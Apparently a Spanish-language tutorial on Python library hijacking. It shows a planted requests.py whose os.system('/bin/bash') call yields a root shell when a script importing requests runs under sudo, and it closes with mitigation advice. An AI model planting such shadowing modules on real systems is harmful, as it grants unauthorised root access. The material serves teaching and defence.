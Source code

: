 Funcionamiento del Ataque

   1- **Orden de Búsqueda de Módulos**:


        Python busca primero en el directorio actual desde donde se ejecuta el script. Si encuentra un archivo 
        con el mismo nombre que el módulo que se intenta importar, lo cargará en lugar del módulo original.




  2- **Creación de un Módulo Malicioso**:


        Al crear un archivo con el mismo nombre que un módulo legítimo (por ejemplo, requests.py), se puede 
        inyectar código malicioso que se ejecutará cuando el script intente importar ese módulo.




3- **Ejecución del Código Malicioso**:


        Si el script se ejecuta con privilegios elevados (por ejemplo, usando sudo), el código malicioso se 
        ejecutará con esos privilegios, lo que puede comprometer la seguridad del sistema.

        
**Ejemplo**

iker@181f77f462ad:~$ cat geo_ip.py 
import requests; 
ip = input('Introduce la direccion IP que quieras geolocalizar: ')
respuesta = requests.get(f'http://ip-api.com/json/{ip}')
data = respuesta.json()
print(data)

nano requests.py

import os
os.system('/bin/bash')

iker@181f77f462ad:~$ sudo /usr/bin/python3 /home/iker/geo_ip.py

root@181f77f462ad:/home/iker# whoami

root

root@181f77f462ad:/home/iker# 


**Mitigación**

Para mitigar este tipo de ataques, debemos considerar las siguientes prácticas:


    Evitar el uso de sudo para ejecutar scripts de Python: Siempre que sea posible, evita ejecutar scripts con privilegios elevados.

    Validar el entorno de ejecución: Asegúrate de que el entorno de ejecución no contenga archivos maliciosos con nombres de módulos comunes.

    Usar entornos virtuales: Los entornos virtuales pueden ayudar a aislar las dependencias y reducir el riesgo de conflictos de nombres de módulos.

    Revisar el código fuente: Antes de ejecutar scripts de terceros, revisa el código para detectar posibles importaciones de módulos maliciosos.







